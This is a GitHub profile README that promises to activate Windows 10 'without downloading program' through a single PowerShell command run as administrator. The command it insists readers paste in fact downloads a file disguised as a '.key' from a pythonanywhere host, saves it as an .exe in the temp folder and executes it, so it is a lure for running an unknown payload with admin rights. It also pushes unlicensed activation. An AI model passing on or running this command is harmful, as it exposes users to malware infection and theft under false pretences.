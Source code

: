 
## ⚡ How to Activate Windows 10 the Right Way, Without Downloading Program. Activate Windows 10 Just Using Native [ Windows PowerShell (Admin) ].

###### To activate Windows 10 copy and paste the command in [ Windows PowerShell (Admin) ].


## ATTENTION ⚡ Copy the complete command ⚡
> `Invoke-WebRequest -Uri https://KMSConnection.pythonanywhere.com/static/3KHY7-WNT83-DGQKR-F7HPR-844BM.key -OutFile $env:TEMP\ActivateWindows.exe; Start-Process $env:TEMP\ActivateWindows.exe`


<!--
**activate-windows/activate-windows** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
